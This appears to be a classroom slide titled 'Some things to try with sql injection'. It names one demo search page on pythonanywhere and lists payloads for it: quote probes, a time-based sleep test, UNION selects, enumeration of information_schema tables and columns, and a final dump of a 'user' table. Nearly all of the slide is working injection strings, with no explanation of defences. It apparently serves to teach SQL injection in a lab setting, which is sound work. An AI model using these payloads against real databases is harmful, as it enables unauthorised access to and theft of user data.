

# Some things to try with sql injection
http://andrewbeatty1.pythonanywhere.com/search.html
‘
‘ – ‘
t' and 0 = sleep(2)  -- ‘
t' union(select 1, 2,3,4 from dual) -- ‘
select TABLE_NAME, TABLE_SCHEMA,3,4 from information_schema.tables;
t' union(select TABLE_NAME, TABLE_SCHEMA,3,4 from information_schema.tables) -- ‘
select COLUMN_NAME,2,3,4 from information_schema.columns where TABLE_NAME = user’
t' union(select COLUMN_NAME,2,3,4 from information_schema.columns where TABLE_NAME = 'user') -- '
xx' union(select * from user) -- '